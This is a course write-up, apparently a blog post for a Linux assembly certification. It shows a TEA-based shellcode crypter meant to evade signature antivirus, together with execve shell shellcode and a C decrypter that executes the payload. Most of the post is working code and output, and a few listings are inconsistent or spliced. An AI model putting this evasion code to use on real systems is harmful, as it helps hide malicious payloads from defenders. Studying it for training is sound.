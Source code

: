 ```yaml
---
layout: post
title:  "SLAE Assignment 7 - Custom crypter"
date:   2017-04-30
category: Certification
excerpt_separator: <!--more-->
hidden: true
---
```

<br />
Student **SLAE - 891**  
Github: [https://github.com/phackt/slae](https://github.com/phackt/slae)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
  
### Assignment 7:  
    
**Our Goal:**  
> *Create a custom crypter*
 - *Free to use any existing encryption schema*
 - *Can use any programming language*  
<!--more-->
  
Hello everybody,  
  
In this last assignment we will aim at creating a shellcode crypter. The crypter program will cipher our shellcode in order to defeat any reverse-engineering analysis and to bypass fingerprint/signature based anti-virus detection.  
  
A quick search for a simple encryption algorithm leads to the [Tiny Encryption Algorithm](https://en.wikipedia.org/wiki/Tiny_Encryption_Algorithm):  
*'In cryptography, the Tiny Encryption Algorithm (TEA) is a block cipher notable for its simplicity of description and implementation, typically a few lines of code.'*  
  
![image]({{ site.url }}/public/images/slae/assignment7/image.png)  
  
If you want to read more about the Tiny Encryption Algorithm and its implementation and weaknesses nowadays, here is a [link](http://www.tayloredge.com/reference/Mathematics/TEA-XTEA.pdf).  

For this assignment we will use the [execve-stack.nasm](https://github.com/phackt/slae/tree/master/assignment7/execve-stack.nasm) shellcode:  
```
\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
  
Now let's create our C crypter [tea_crypter.c](https://github.com/phackt/slae/tree/master/assignment7/tea_crypter.c):  
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void encode(long *data, long *key) {
	unsigned long y = data[0], z = data[1],
	sum = 0, delta = 0x9e3779b9, n = 32;
	while (n-- > 0) {
		sum += delta;
		y += (z << 4) + (key[0]^z) + (sum^(z >> 5)) + key[1];
		z += (y << 4) + (key[2]^y) + (sum^(y >> 5)) + key[3];
	}
	data[0] = y;
	data[1] = z;
}

void decode(long *data, long *key) {
	unsigned long n = 32, sum, y = data[0], z = data[1],
	delta=0x9e3779b9;
	sum = delta << 5;
	while (n-- > 0) {
	     	z -= (y << 4) + (key[2]^y) + (sum^(y >> 5)) + key[3]; 
	     	y -= (z << 4) + (key[0]^z) + (sum^(z >> 5)) + key[1];
	     	sum -= delta;  
	}
	data[0] = y; 
	data[1] = z;  
}

/* Character Array Functions */
void codestr(char *datastr, char *keystr) {
	int i = 0, datasize;
	long *data = (long *)datastr;
	long *key = (long *)keystr;
	datasize = strlen(datastr) / sizeof(long);
	datasize = 0 ? 1 : datasize;
	while (i < datasize) {
		encode(data, key);
		i += 2;
		data = (long *)datastr + i;
	}
}

void decodestr(char *datastr, char *keystr) {
	int i = 0, datasize;
	long *data = (long *)datastr;
	long *key = (long *)keystr;
	datasize = strlen(datastr) / sizeof(long);
	datasize = 0 ? 1 : datasize;
	while (i < datasize) {
		decode(data, key);
		i += 2;
		data = (long *)datastr + i;
	}
}

int main() {
	char shellcode[] = \
	"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; //execve-stack
	
	int last;
	char *str, buff[512];
	char key[16] = "iloveshellcodess";
	
	str = shellcode;

	codestr(str, key);

	printf("\Ciphered shellcode size: %d\n", strlen(str));
	printf("\Ciphered shellcode:\n");

	int j;
	for (j=0;j<strlen(str);j++)
	{
		printf("\\x%02x", (unsigned char)(int)str[j]);
	}
	
	return 0;
}
```
  
Let's compile and run our TEA crypter:  
```bash
# gcc -fno-stack-protector -z execstack -o tea_crypter tea_crypter.c && chmod u+x ./tea_crypter && ./tea_crypter
Ciphered shellcode size: 25
Ciphered shellcode:
\x75\xac\xf4\x4c\x4f\x97\x9a\x0a\x92\xb5\x29\x5f\x9e\xa3\xa0\x53\xa7\xa9\xcd\x3c\x6f\x85\xee\x95\x80
```  
  
Now let's decrypt and execute this shellcode ([tea_decrypter.c](https://github.com/phackt/slae/tree/master/assignment7/tea_decrypter.c)):  
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void decode(long *data, long *key) {
	unsigned long n = 32, sum, y = data[0], z = data[1],
	delta=0x9e3779b9;
	sum = delta << 5;
	while (n-- > 0) {
	     	z -= (y << 4) + (key[2]^y) + (sum^(y >> 5)) + key[3]; 
	     	y -= (z << 4) + (key[0]^z) + (sum^(z >> 5)) + key[1];
	     	sum -= delta;  
	}
	data[0] = y; 
	data[1] = z;  
}

/* Character Array Functions */
void decodestr(char *datastr, char *keystr) {
	int i = 0, datasize;
	long *data = (long *)datastr;
	long *key = (long *)keystr;
	datasize = strlen(datastr) / sizeof(long);
	datasize = 0 ? 1 : datasize;
	while (i < datasize) {
		decode(data, key);
		i += 2;
		data = (long *)datastr + i;
	}
}

int main() {
	char shellcode[] = \
	"\x75\xac\xf4\x4c\x4f\x97\x9a\x0a\x92\xb5\x29\x5f\x9e\xa3\xa0\x53\xa7\xa9\xcd\x3c\x6f\x85\xee\x95\x80";	

	char buffer[512];
	char key[16] = "iloveshellcodess";
	
	strcpy(buffer, shellcode);
	decodestr(buffer, key);
	
	printf("Decrypted shellcode:\n");
	for (int i=0;i<strlen(shellcode);i++)
	{
		printf("\\x%02x", (unsigned char)(int)shellcode[i]);
	}

	// we are executing the shellcode once it has been decrypted
	printf("\nRunning shellcode...\n");
	int (*ret)() = (int(*)())buffer;
	ret();
	
	return 0;
}
```
  
Then:  
```bash
# gcc -fno-stack-protector -z execstack -o tea_crypter tea_crypter.c && chmod u+x ./tegcc -fno-stack-protector -z execstack -o tea_decrypter tea_decrypter.c && chmod u+x ./tea_decrypter && ./tea_decrypter
Decrypted shellcode:
\x75\xac\xf4\x4c\x4f\x97\x9a\x0a\x92\xb5\x29\x5f\x9e\xa3\xa0\x53\xa7\xa9\xcd\x3c\x6f\x85\xee\x95\x80
Running shellcode...
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```
  
Perfect, so our shellcode has been well decrypted and executed. Remember that TEA has some weaknesses, you may use another algorithm if you need strong encryption (AES, RSA, Blowfish, Twofish, ...).  Also avoid simple XOR encryption because the xoring key can be guessed thanks to a tool like [xortool](https://github.com/hellman/xortool).  
  
So it was our last assignment for the exam of the  [http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  course.  
Thanks again to Vivek and its team for their work.  
  
Hope to see you soon,
  
[Phackt](https://twitter.com/phackt_ul)

